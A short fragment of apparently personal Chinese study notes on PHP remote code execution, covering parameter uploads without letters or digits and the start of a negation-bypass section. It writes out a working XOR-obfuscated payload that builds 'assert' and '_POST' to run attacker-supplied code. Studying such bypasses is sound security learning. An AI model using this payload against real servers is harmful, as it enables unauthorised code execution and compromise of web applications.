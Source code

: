 无法上传数字和字母

注意上传参数时+会被识别为空格，使用url编码即可

assert函数

![image-20250126164043875](rce学习/image-20250126164043875.png)

post上传参数指令，

?cmd=$_="!((%)("^"@[[@[\\";$__="!+/(("^"~{`{|";$___=$$__;$_($___['_']);

## 取反绕过

![image-20250126170908677](rce学习/image-20250126170908677.png)
